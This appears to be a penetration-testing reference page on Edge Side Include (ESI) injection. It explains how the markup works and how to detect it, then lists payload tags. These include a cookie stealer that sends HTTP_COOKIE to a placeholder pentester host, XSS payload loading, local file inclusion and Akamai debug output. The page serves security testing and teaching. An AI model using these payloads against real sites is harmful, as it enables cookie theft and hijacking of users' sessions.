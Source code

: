 Edge Side Includes (`ESI`) is an XML-based markup language used to tackle performance issues by enabling heavy caching of Web content. This allows for dynamic web content assembly at the edge of the network (CDN, Browser, or Reverse Proxy) by instructing the page processor what needs to be done to complete page assembly through ESI elements (XML tags).

These ESI elements/tags are used to instruct the HTTP surrogates, such as reverse proxy, caching server, to fetch additional information regarding a web page with an already cached template. This information may come from another server before rendering the web page to the end-user.

Edge-Side Include Injection occurs when an attacker manages to reflect malicious ESI tags in the HTTP Response. This vulnerability happens due to HTTP surrogates not able to validate the ESI tag origin. They will gladly parse and evaluate legitimate ESI tags by the upstream server and malicious ESI tags by an attacker.

ESI can be identified by inspecting response headers in search for `Surrogate-Control: content="ESI/1.0"`.

Some useful ESI tags are:
```html
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```